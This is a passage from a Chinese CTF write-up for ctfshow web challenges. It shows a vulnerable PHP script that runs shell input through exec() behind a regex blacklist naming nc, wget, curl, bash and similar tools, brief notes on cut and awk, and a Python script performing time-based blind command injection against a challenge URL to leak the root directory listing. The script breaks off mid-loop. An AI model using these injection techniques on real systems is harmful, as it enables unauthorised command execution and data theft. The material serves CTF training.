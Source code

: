 ```
ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```



## web139

```php
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```



> cut命令

![](http://img.npfs06.top/20210227182728.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

> awk命令

![](http://img.npfs06.top/20210227183251.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



NR(Number of Record)：行号，当前处理的文本行的行号

FNR : 各文件分别计数的行号

![](http://img.npfs06.top/20210227200720.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



```python
import requests
import time
import string
str=string.ascii_letters+string.digits
result=""
for i in range(1,5):
	key=0
	for j in range(1,15):
		if key==1:
			break
		for n in str:
			payload="if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i,j,n)
			#print(payload)
			url="http://877848b4-f5ed-4ec1-bfc1-6f44bf292662.chall.ctf.show?c="+payload
			try:
				requests.get(url,timeout=(2.5,2.5))
			except:
			    result=result+n
			    print(result)
			    break
			if n=='9':
```